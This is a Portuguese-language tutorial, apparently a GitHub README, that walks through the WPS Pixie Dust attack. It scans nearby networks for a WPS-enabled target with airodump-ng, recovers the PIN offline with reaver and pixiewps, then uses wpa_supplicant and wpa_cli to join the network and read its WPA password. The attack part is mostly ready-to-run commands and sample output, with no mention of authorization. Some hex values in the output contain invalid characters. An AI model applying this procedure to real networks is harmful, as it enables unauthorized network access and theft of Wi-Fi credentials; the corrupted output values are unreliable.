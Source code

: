 ## pegando psk com pixie-dust attack 


O pixie dust attack consiste em realizar a quebra do WPS de maneira offline.O método offline 
envolve tentar apenas um PIN aleatório e coletar algumas informações durante o processo. Esses 
dados podem ser usados posteriormente para tentar o ataque pixie-dust.
A vulnerabilidade está na mensagem M3: no corpo da mensagem é utilizado
duas chaves AES de 128 bits randômicas (E-S1 e E-S2) para encriptação da
primeira e da segunda metade do PIN, respectivamente. Se as duas chaves
forem descobertas, é possível recuperar o número PIN com um ataque offline
em menos de um segundo, em vez de “chutar” o número PIN no roteador, processo que pode levar 
de 8 a 12 horas (mais informações sobre o brute-force offline aqui http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)


## Parte pratica
##### Com a interface em modo monitor você pode "sniffar" as redes em volta para identificar um alvo em potêncial com o airodump-ng adicionando a flag --wps dessa forma:
```
$ sudo airodump-ng --wps <interface>
```
> Repare na coluna WPS 

```
 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ]
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER  WPS  AUTH  ESSID
                                                                                                             
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN          2.0           NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP     1.0           bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP    2.0    PSK    teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy

```

##### Os APs com o WPS ativado apareceram nessa coluna com a versão do wps que o AP possui. Pode acontecer de alguns APs ficarem com um espaço vazio nessa coluna, isso é porque o wps está desativado.

##### Depois de ter identificado seu alvo, a ferramenta utilizada para fazer o ataque ao WPS será a Reaver (link no final da pg) com o seguinte comando:
  
```
sudo reaver -i <interface> -c <channel> -b <mac do ap> -vv -K 1
(precisa da flag -vv)
```
##### O resultado pode variar um pouco porque depende muito do roteador que está sendo atacado. Essa falha é relativa ao firmware do roteador, não sendo todos os roteadores vulneráveis. Você pode ver alguns exemplos de saida aqui -> https://forums.kali.org/showthread.php?25123-Reaver-modfication-for-Pixie-Dust-Attack ou pesquisar por conta própria e ver vários resultados diferentes que as pessoas conseguem por ai ... mas saída que deu certo pra mim foi semelhante a essa:

```
$ sudo reaver -i <interface> -c <channel> -b 01:D0:30:4A:49:45 -vv -K 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching wlan0 to channel 2
[+] Waiting for beacon from 01:D0:30:4A:49:45
[+] Received beacon from 01:D0:30:4A:49:45
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 01:D0:30:4A:49:45 (ESSID: "nome qualquer")
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e 
313ff74331338ed2d66cc580c997ee805df43626d3dfda23328688e110e5676b7aa9d36640956c1d5b712835a0b07a7ec2ac2363e44336232cf5c11517096bad3c95bc2db3f537c41cf0a80036e
5b680e3e1e130a9303c14f77abca481e4911f590148387c6dc2839e2820a028f9d9c0767d25216c01260c011259cbd30c846ada8da47e5dc9d3dbe99953d9f8ef547d42b3152f581e790aae608c
6b112aac298cb121a60b6ec8849f23497234685b05b53a632526765dbf12642ed0ee8213fb -s c6987c052c458512a2972cfacc923e4c61c9502723676b9493d1b783062ecg16 -z 
72e3a7f04f5eb1cdd4602fb15443099f82d56a02ccad15774ea873c84b4b1b0b -a 3c63e889ae1d26a4441e2f9fbf7b673ff4aee85889383d88dc3707253d155d6b -n 
db396a9e4066be20697a0e236d3aaef7 -r 
29722c42863986dd84a965db99fca766e49c04e58c70f3cc0526b1d6efa0798d3a8023d533f87ea70g6551e50274d40e6c19dd6b3842b496e8c5fc2efc62dd67dc0ad5276aa21321fb68a70bbe6
9d6d6f27e5fb61ff29411a35c9d8e7084d8920cba3656a628ed5e7559ce53804ed85ea840221a73e8fb277c1ff86be187fb4008608c1f086637b045078cfa4c5dfe797d10d866322331866a6cf8
1651af877ad5f074be7c94a5db570d9c467dbf6aa048b48e16bfe98a265657a764b4d09fa7a

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x2e6f2d71
 [*] Seed ES1: 0x7f3d488f
 [*] Seed ES2: 0x4104ca5d
 [*] PSK1:     e7868366f236b343dc0777209b87a214
 [*] PSK2:     95a24c483176fadddc4469a305e893b2
 [*] ES1:      3dd1a7d64b65cbe1bd80ab4359css07e
 [*] ES2:      5502dec86e7ae960a247f6b8aa9c513d
 [+] WPS pin:  18630248   <==== PIN AQUI

 [*] Time taken: 0 s 294 ms
```
(você pode executar o comando "pixiewps" sugerido pela própria ferramenta, que trará o mesmo resultado do pin recuperado)

##### Dependendo do resultado do ataque, o reaver consegue recuperar apenas o PIN do WPS como mostrado acima. Nos meus testes foi esse resultado que consegui, então a idéia é essa: recuperar o PIN com o ataque offline pixie-dust, depois se conectar ao AP com o pin recuperado usando o procedimento abaixo, para então pegar o psk

1. ***Crie o arquivo wpa_supplicant.conf em /etc/ e nesse arquivo vai as seguintes linhas***:

> ctrl_interface=/var/run/wpa_supplicant
>  
> ctrl_interface_group=0
>  
> update_config=1
  

2. ***Inicie o wpa_supplicant, com o arquivo de configuração /etc/wpa_supplicant.conf***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
```

  
3. ***Em outro terminal inicie o wpa_cli para realizar a conexão ao ponto de acesso por meio do número PIN***:
```  
$ wpa_cli wps_reg 74:EA:3A:E1:E8:66 02283470
                     <mac do ap>    <pin wps>
```
  
  
4. ***O wpa_supplicant fará a conexão ao ponto de acesso. No terminal em que o wpa_supplicant foi iniciado
é retornado uma mensagem de que a conexão foi bem-sucedida***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ioctl[SIOCSIWENCODEEXT]: Invalid argument
wlan0: Failed to initiate AP scan
wlan0: Trying to associate with 74:ea:3a:e1:e8:66 (SSID='TP-LINK_E1E866' freq=2462 MHz)
wlan0: Associated with 74:ea:3a:e1:e8:66
wlan0: WPA: Key negotiation completed with 74:ea:3a:e1:e8:66 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 74:ea:3a:e1:e8:66
completed (auth) [id=1 id_str=]
```
  
  
5. ***Visualize o conteúdo do arquivo /etc/wpa_supplicant.conf com a senha
wireless da rede***:
```
$ cat /etc/wpa_supplicant.conf
network={
ssid="TP-LINK_E1E866"
bssid=74:ea:3a:e1:e8:66
psk="senha123"
proto=RSN
key_mgmt=WPA-PSK
pairwise=CCMP
auth_alg=OPEN
}
```

referencia:
- https://novatec.com.br/livros/pentest-redes-sem-fio/
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access#WPS_PIN_recovery
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup
- https://github.com/wiire-a/pixiewps
- https://github.com/t6x/reaver-wps-fork-t6x
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)
